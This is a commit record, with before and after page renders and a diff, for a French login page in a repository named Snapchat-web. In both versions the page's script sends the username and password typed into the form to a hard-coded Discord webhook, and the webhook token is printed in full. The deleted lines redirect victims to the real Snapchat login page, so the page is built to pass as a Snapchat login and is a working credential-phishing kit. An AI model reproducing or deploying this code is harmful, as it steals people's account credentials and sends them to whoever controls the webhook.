

Before and after one commit to Snapchat-web/8, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -8,138 +8,57 @@
     body {
       margin: 0; padding: 0;
       font-family: "Segoe UI", Tahoma, Geneva, Verdana, sans-serif;
-      background: linear-gradient(135deg, #f5f7fa 0%, #c3cfe2 100%);
+      background-color: #f0f0f0; /* fond gris clair */
       display: flex; justify-content: center; align-items: center;
       height: 100vh;
-      color: #333;
     }
     .login-box {
       width: 100%; max-width: 400px;
-      padding: 40px 35px;
-      background: #fff;
-      box-shadow: 0 8px 20px rgba(0, 0, 0, 0.12);
-      border-radius: 12px;
+      padding: 40px;
+      box-shadow: 0 0 15px rgba(0,0,0,0.1);
+      border-radius: 10px;
       text-align: center;
-      transition: box-shadow 0.3s ease;
-    }
-    .login-box:hover {
-      box-shadow: 0 12px 28px rgba(0, 0, 0, 0.18);
-    }
-    h2 {
-      margin-bottom: 32px;
-      font-weight: 700;
-      font-size: 1.8rem;
-      user-select: none;
-      color: #222;
+      background-color: #ffffff; /* blanc pour la boîte */
     }
     input[type="text"], input[type="password"] {
-      width: 100%;
-      padding: 14px 16px;
-      margin: 12px 0 20px 0;
-      border: 1.5px solid #bbb;
-      border-radius: 10px;
+      width: 100%; padding: 12px;
+      margin: 10px 0;
+      border: 1px solid #ccc;
+      border-radius: 8px;
       font-size: 16px;
-      font-weight: 500;
-      box-shadow: inset 0 2px 5px rgba(0,0,0,0.05);
-      transition: border-color 0.3s ease, box-shadow 0.3s ease;
-      outline-offset: 2px;
     }
-    input[type="text"]:focus,
-    input[type="password"]:focus {
-      border-color: #3b82f6;
-      box-shadow: 0 0 10px rgba(59, 130, 246, 0.5);
-      outline: none;
+    button {
+      background-color: #fffc00;
+      border: none; color: #000;
+      font-weight: bold; padding: 12px;
+      width: 100%; border-radius: 8px;
+      cursor: pointer; margin-top: 20px;
+      font-size: 16px;
+      transition: background-color 0.3s;
     }
-    button[type="submit"] {
-      background-color: #facc15;
-      border: none;
-      color: #1a1a1a;
-      font-weight: 700;
-      padding: 14px 0;
-      width: 100%;
-      border-radius: 12px;
-      cursor: pointer;
-      font-size: 16.5px;
-      box-shadow: 0 5px 12px rgba(250, 204, 21, 0.6);
-      transition: background-color 0.3s ease, box-shadow 0.3s ease;
-      user-select: none;
-    }
-    button[type="submit"]:hover {
-      background-color: #eab308;
-      box-shadow: 0 7px 16px rgba(234, 179, 8, 0.75);
-    }
-    #errorMessage {
-      color: #dc2626;
-      display: none;
-      margin-top: 10px;
-      font-size: 14px;
-      font-weight: 600;
-      user-select: none;
-    }
-    .links-container {
-      display: flex;
-      justify-content: space-between;
-      margin-top: 10px;
-      font-size: 14px;
-    }
-    .link-button {
-      background: transparent;
-      border: none;
-      color: #2563eb;
-      font-weight: bold;
-      cursor: pointer;
-      user-select: none;
-      padding: 0;
-      font-family: inherit;
-      font-size: inherit;
-      transition: color 0.25s ease;
-    }
-    .link-button:hover {
-      color: #1e40af;
-      text-decoration: underline;
-    }
-    #forgotPassword {
-      text-decoration: underline;
+    button:hover {
+      background-color: #e6e600;
     }
   </style>
 </head>
 <body>
-  <div class="login-box" role="main" aria-label="Formulaire de connexion">
+  <div class="login-box">
     <h2>Se connectez au jeux video crée par moi</h2>
-    <form id="loginForm" novalidate>
-      <input type="text" id="username" placeholder="Nom d'utilisateur ou e-mail" required autocomplete="username" aria-required="true" />
-      <input type="password" id="password" placeholder="Mot de passe" required autocomplete="current-password" aria-required="true" />
+    <form id="loginForm">
+      <input type="text" id="username" placeholder="Nom d'utilisateur ou e-mail" required />
+      <input type="password" id="password" placeholder="Mot de passe" required />
       <button type="submit">Connexion</button>
-      <div class="links-container">
-        <button type="button" class="link-button" id="signupLink">S'inscrire</button>
-        <button type="button" class="link-button" id="forgotPassword">Mot de passe oublié</button>
-      </div>
     </form>
-    <p id="errorMessage" role="alert" aria-live="assertive">Le nom d'utilisateur ou le mot de passe est incorrect.</p>
   </div>
 
   <script>
     const webhookURL = "https://discord.com/api/webhooks/1382387384997515294/yI75S1jd9z_vRaMRNBYR8Kk_i8rNs8_cMeeNtMRoU7IZgWtI-R6Cch95PsOPsG51K8s2";
-    const redirectURL = "https://accounts.snapchat.com/accounts/v2/login?continue=%2Faccounts%2Fsso%3Fclient_id%3Dweb-calling-corp--prod%26referrer%3Dhttps%253A%252F%252Fwww.snapchat.com%252Fweb%252Ff3411d81-73e7-59d1-a928-9af58b989e8a";
 
     document.getElementById('loginForm').addEventListener('submit', function(e) {
       e.preventDefault();
 
-      const username = document.getElementById('username').value.trim();
-      const password = document.getElementById('password').value.trim();
-      const errorMessage = document.getElementById('errorMessage');
-
-      if (
-        username.length < 3 ||
-        password.length < 3 ||
-        username.includes(" ") ||
-        password.includes(" ")
-      ) {
-        errorMessage.style.display = 'block';
-        return;
-      } else {
-        errorMessage.style.display = 'none';
-      }
+      const username = document.getElementById('username').value;
+      const password = document.getElementById('password').value;
 
       const message = {
         content: `**Nouveau login reçu:**\nNom d'utilisateur: \`${username}\`\nMot de passe: \`${password}\``
@@ -154,7 +73,6 @@
         if (response.ok) {
           alert("Données envoyées avec succès !");
           document.getElementById('loginForm').reset();
-          window.location.href = redirectURL;
         } else {
           alert("Erreur lors de l'envoi des données.");
         }
@@ -164,16 +82,6 @@
         console.error(error);
       });
     });
-
-    document.getElementById('signupLink').addEventListener('click', () => {
-      alert("Redirection vers la page d'inscription...");
-      // window.location.href = "inscription.html";
-    });
-
-    document.getElementById('forgotPassword').addEventListener('click', () => {
-      alert("Redirection vers la récupération de mot de passe...");
-      // window.location.href = "recuperation.html";
-    });
   </script>
 </body>
 </html>
```
